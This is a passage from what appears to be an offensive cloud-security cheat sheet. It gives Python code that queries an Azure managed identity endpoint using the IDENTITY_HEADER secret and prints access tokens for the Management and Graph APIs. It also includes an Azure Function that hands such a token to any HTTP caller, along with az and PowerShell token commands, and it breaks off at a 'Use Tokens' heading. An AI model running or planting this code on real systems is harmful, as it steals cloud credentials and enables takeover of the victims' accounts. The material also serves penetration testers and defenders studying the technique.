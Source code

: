 ```py
IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']

print("[+] Management API")
cmd = 'curl "%s?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
print("Access Token: "+json.loads(val)["access_token"])
print("ClientID/AccountID: "+json.loads(val)["client_id"])

print("\r\n[+] Graph API")
cmd = 'curl "%s?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
print(json.loads(val)["access_token"])
print("ClientID/AccountID: "+json.loads(val)["client_id"])
```

⧉ Copied!

or inside a Python Function:

```py
import logging, os
import azure.functions as func

def main(req: func.HttpRequest) -> func.HttpResponse:
    logging.info('Python HTTP trigger function processed a request.')
    IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
    IDENTITY_HEADER = os.environ['IDENTITY_HEADER']
    cmd = 'curl "%s?resource=https://management.azure.com&apiversion=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
    val = os.popen(cmd).read()
    return func.HttpResponse(val, status_code=200)
```

⧉ Copied!

### Get Tokens

:warning: The lifetime of a Primary Refresh Token is 14 days!

```powershell
# az cli - get tokens 
az account get-access-token 
az account get-access-token --resource-type aad-graph
# or Az
(Get-AzAccessToken -ResourceUrl https://graph.microsoft.com).Token
# or from a managed identity using IDENTITY_HEADER and IDENTITY_ENDPOINT
```

⧉ Copied!

### Use Tokens
